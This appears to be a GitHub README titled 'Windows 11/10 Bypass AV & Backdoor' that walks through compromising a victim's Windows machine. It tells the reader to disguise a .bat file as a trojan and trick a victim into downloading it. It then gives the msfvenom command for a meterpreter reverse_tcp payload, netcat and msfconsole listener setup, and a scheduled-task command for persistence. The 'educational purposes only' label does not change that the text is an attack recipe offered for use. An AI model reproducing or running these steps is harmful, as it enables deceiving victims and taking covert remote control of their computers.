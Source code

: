 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps:

1. Make it convincing by turning it into a trojan horse.
2. Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
5. For persistence, modify the final line of code to make backdoor a scheduled task: <br>
SCHTASKS /CREATE /SC DAILY /TN "FOLDERPATH\TASKNAME" /TR "C:\SOURCE\FOLDER\APP-OR-SCRIPT" /ST HH:MMExampleSCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "C:\Windows\System32\notepad.exe" /ST 11:00
